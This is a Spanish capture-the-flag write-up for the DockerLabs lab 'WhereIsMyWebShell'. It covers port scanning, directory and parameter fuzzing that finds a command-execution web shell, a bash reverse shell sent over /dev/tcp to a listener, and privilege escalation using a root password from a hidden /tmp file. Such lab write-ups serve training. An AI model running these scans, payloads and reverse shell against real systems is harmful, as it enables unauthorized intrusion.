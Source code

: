 # [WhereIsMyWebShell](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh whereismywebshell.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)

`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b69f4026-cad2-4dfe-8a29-a6ea9f8ef44a)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Dicha web tiene la siguiente apariencia:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/edb8225a-071e-47d2-ba92-8cb06fa05d83)

<br>

Si echamos un vistazo por la página vemos abajo del todo nos da una pequeña pista a tener en cuenta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Inspeccionamos el Código Fuente con `CTRL + U` pero no encontramos nada interesante, por lo que pasamos a hacer fuzzing con este comando <br>`gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`<br>
Nos encuentra los siguientes archivos:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e315816c-9bc5-448d-b864-077f91631082)

<br>

Vemos un archivo un poco extraño llamado `shell.php`, si nos dirigimos a la página web no nos aparece nada. Por lo que probaremos a hacerle fuzzing al parámetro de este archivo a ver si tiene alguno el cual nos permita ejecutar comando remotamente usaremos la herramienta `wfuzz` de la siguiente forma: `wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id --hc 404 --hl 0`, nos encuentra lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6fc866f7-331b-4f59-bb03-eb54c4ad3d35)

<br>

Por lo que nos vamos a la web y en la URL introducimos `http://172.17.0.2/shell.php?parameter=id`, comprobamos que estamos ante una RCE.
<br>

Sabiendo que podemos ejecutar comandos remotamente nos enviaremos una [revshell](https://www.revshells.com/). 

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, le pasamos de valor a `parameter` lo siguiente `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, por lo tanto la URL quedaría así `172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, vemos que la página web se queda cargando y recibiremos la reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/28d5cfd0-1400-48a6-8410-e27c0278322d)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos accedido a la máquina como **www-data**:
<br>

 > El (;) concatena dos comandos.

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e3d0974c-19ab-4f5a-838e-4800b942e188)

<br>

El primer lugar, haremos un Tratamiento de la TTY ejecutando en orden las siguientes infracciones: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95fb08c9-21e9-4b8a-ac90-a167c34be2dc)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d1835fdd-3a85-4a79-a1af-46fb2da486b5)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si recordamos en la página web nos dió la siguiente pista:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Por lo que nos dirigimos al directorio `/tmp`, y si hacemos `ls` no vemos nada pero si hacemos `ls -la` observamos un archivo oculto `.secret.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0b5ab0-b49b-45c1-87d9-47f9e41f38fe)

<br>

El contenido de este archivo es el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9ad4268b-00fb-4d08-9580-7027c5f53328)

<br>

Por lo que probamos a autenticarnos como **root** haciendo `su root`, ponemos de contraseña `contraseñaderoot123`, y listo ya somos **root!**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/645487d7-bf3d-457c-90a8-b447b682de84)
